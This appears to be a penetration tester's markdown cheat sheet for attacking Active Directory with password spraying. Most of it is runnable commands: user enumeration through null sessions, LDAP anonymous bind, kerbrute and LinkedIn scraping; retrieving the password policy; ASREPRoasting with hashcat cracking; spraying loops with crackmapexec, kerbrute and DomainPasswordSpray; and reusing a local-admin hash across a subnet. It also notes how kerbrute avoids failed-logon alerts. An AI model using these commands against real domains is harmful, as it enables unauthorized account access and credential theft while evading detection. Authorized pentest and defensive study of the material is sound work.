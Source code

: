 # Password Spraying

Once you are in the network and have enumerated live hosts using nmap, tcpdump or whatever tool.
We need to find a way to establish foothold in domain by gettng username and credentials (clear text or NTLM hash).
It is important to get this access in the early stages of pentest so we can perform more enumeration and attacks.

Note: It’s possible to do this using the SYSTEM account because it can impersonate the computer.
A computer object is treated as a domain user account (with some differences, such as authenticating across forest trusts). 


### Users Enumeration

- SMB NULL sessions allow an unauthenticated attacker to retrieve information from the domain, 
such as a complete listing of users, groups, computers, user account attributes, and the domain password policy.

 ```shell
 # using enum4linux
 enum4linux -U $DC_IP  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

 # using rpcclient
 rpcclient -U "" -N $DC_IP
 rpcclient $> enumdomusers

 # using crackmapexec
 crackmapexec smb $DC_IP --users
 ```

- LDAP Anonymous Bind allow unauthenticated attackers to retrieve information from the domain, such as a complete
 listing of users, groups, computers, user account attributes, and the domain password policy.

 ```shell
 # using ldapsearch, we need to provide proper filter for getting usernames
 ldapsearch -H ldap://$DC_IP -x -b "DC=$DOMAIN,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

 # using windapsearch, it is easier as we dont need filter
 windapsearch.py --dc-ip $DC_IP -u "" -U
 windapsearch.py --dc-ip $DC_IP -d $DOMAIN --custom "objectClass=*"
 ```

- Do some OSINT and try to get information related to people of the target company.
- You can use `linkedin2username` to create a possible worlist of users.

 ```shell
 linkedin2username.py -c company_name -n $DOMAIN -g -o linked_in_users.txt
 ```
- kerbrute is a stealthy option for domain account enumeration.
- It uses kerberos protocol to check if the username is valid or not.
- It takes advantage of kerberos pre-authentication, as the failures will not trigger logs or alerts.
 like Windows event ID 4625: An account failed to log on and event ID 4768: A Kerberos authentication
 ticket (TGT) was requested. This will only be triggered if Kerberos event logging is enabled via Group Policy.
- If we are successful with this, we should mention it in report

 ```shell
 kerbrute userenum -d $DOMAIN --dc $DC_IP wordlist.txt -o valid_ad_users

 # The tool sends TGT requests to the domain controller without Kerberos 
 # Pre-Authentication to perform username enumeration. If the KDC responds 
 # with the error PRINCIPAL UNKNOWN, the username is invalid.
 ```

Note: crackmapexec will provide you bad password count and time the latest bad attempt occured. This 
will help you in knowing which accounts are close to lockdown and you should avoid attacking them.
This count is maintained separate on each DC in case of multiple DCs.


### Getting Domain Password Policy

- Be careful not to lock accounts while spraying.
- Try to get domain password policy and prepare password list accordingly.
- We can get password policy from `SMB NULL Session` or `LDAP Anonymous Bind`.
- SMB NULL Session from Linux:

 ```shell
 # using rpc client
 rpcclient -U "" -N $DC_IP
 rpcclient $> getdompwinfo

 # using enum4linux
 enum4linux -P $DC_IP

 # using enum4linux-ng (better choice)
 enum4linux-ng -P $DC_IP -oA domain_info
 ```


- SMB NULL Session from Windows:

 ```shell
 net use \\DC01\ipc$ "" /u:""

 # you can use it to check users and passwords
 net use \\DC01\ipc$ "" /u:username
 net use \\DC01\ipc$ "password" /u:username
 ```

- LDAP Anonymous Bind from Linux:

 ```shell
 ldapsearch -H ldap://$DC_IP -x -b "DC=<$DOMAIN>,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
 ```

- LDAP Anonymous Bind from Windows:

 ```shell
 # built in tool
 net accounts

 # using powerview
 import-module .\PowerView.ps1
 Get-DomainPolicy

 # You can also use crackmapexec
 ```

- If you have tried other methods and dont have foothold, you may ask the client to
provide password policy.


## ASREPRoasting

```shell
# Match time with server to get correct ticket
sudo timedatectl set-ntp off
sudo rdate -n target_IP

# Using kerbrute
kerbrute userenum -d $DOMAIN --dc $DC_IP valid_users_list 

# Using impacket toolkit
GetNPUsers.py $DOMAIN/ -dc-ip $DC_IP -no-pass -usersfile valid_ad_users 

# Cracking the password
hashcat -m 18200 hash wordlist
```


## Password Spraying

- Once we have enumerated usernames, password policy and prepared wordlists accordingly, we can start
spraying passwords.

- For Linux:

 ```shell
 # using rpc client
 for u in $(cat $USERNAMES_LIST);do rpcclient -U "$u%$Password" -c "getusername;quit" $DC_IP | grep Authority; done

 # using kerbrute
 kerbrute passwordspray -d $DOMAIN --dc $DC_IP valid_users.txt  $PASSWORD
 
 # using crackmapexec
 crackmapexec smb $DC_IP -u valid_users.txt -p $PASSWORD | grep +
 ```

- If you get some hits, you can validate them:

 ```shell
 crackmapexec smb $DC_IP -u username -p password
 ```

- For Windows:
 ```shell
 # DomainPasswordSpray is a cool tool. If you run it when you are authenticated to domain
 # it will retrieve password policy, valid users and exclude accounts within 1 attempt of locking out
 Import-Module .\DomainPasswordSpray.ps1
 Invoke-DomainPasswordSpray -Password $PASSWORD -OutFile spray_success -ErrorAction SilentlyContinue
 ```

- Always look for patterns in password, try password reuse etc.
- Internal password spraying is possible from domain user account as well as local admin if you have creds, NTLM hash.
- If you have hash of local admin on a machine, you can spray it on entire subnet to check if it is valid on other machines as well.

 ```shell
 crackmapexec smb --local-auth $IP/23 -u administrator -H $HASH | grep +
 ```

### Other Targets
- Microsoft 0365
- Outlook Web Exchange
- Exchange Web Access
- Skype for Business
- Lync Server
- Microsoft Remote Desktop Services (RDS) Portals
- Citrix portals using AD authentication
- VDI implementations using AD authentication such as VMware Horizon
- VPN portals (Citrix, SonicWall, OpenVPN, Fortinet, etc. that use AD authentication)
- Custom web applications that use AD authentication
